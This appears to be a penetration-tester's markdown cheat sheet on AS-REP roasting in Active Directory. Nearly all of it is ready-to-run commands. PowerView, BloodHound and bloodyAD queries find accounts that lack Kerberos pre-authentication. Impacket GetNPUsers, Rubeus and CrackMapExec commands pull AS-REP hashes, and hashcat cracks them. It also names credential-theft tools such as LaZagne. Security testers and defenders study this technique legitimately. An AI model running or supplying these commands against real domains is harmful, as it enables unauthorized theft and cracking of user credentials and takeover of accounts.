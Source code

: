 # ASREPRoast

## Tools: Rubeus , Impacket-GetNPUsers

### ASREPRoast

## Find ASREPRoastable users (need creds)

    Get-DomainUser -PreauthNotRequired -Properties SamAccountName

 - MATCH(u:User {dontreqpreauth:true}). (c:Computer). p=shortestPath((u)-[*1..]->(c)) RETURN p (Bloodhound cypher query)

## Find ASREP hash

    Impacket-GetNPUsers DOMAIN/ -usersfile USERNAMES.TXT -format hashcat -dc-ip DC_IP -dc-host DC.DOMAIN.LOCAL -outputfile HASHES.DOMAIN.TXT

    Rubeus.exe asreproast /format:hashcat

### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Requirements:

### Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

#### 

    Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) 

    python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -outputfile /tmp/list.txt

# Enumeration (Need domain credentials)

## Windows

    Get-DomainUser -PreauthNotRequired -verbose (Powerview)

## Linux 

    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  

## Method: Impacket GetNPUsers

##### Enumerate Users

    GetNPUsers.py -dc-ip <DC_IP> domain.local/user1:password

##### Request AS-REP 

    GetNPUsers.py -dc-ip <DC_IP> -request -format john domain.local/user1:password

It is possible to force DES if it is allowed.

    python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast (Try all the usernames in usernames.txt)

    python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast (Use domain creds to extract targets and target them)

## Alternate Method: CrackMapExec

 -  crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asrep

## Alternate Method: ASREPRoast powershell module https://github.com/HarmJ0y/ASREPRoast

 - Get-ASREPHash -Username VPN114user -verbose

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |


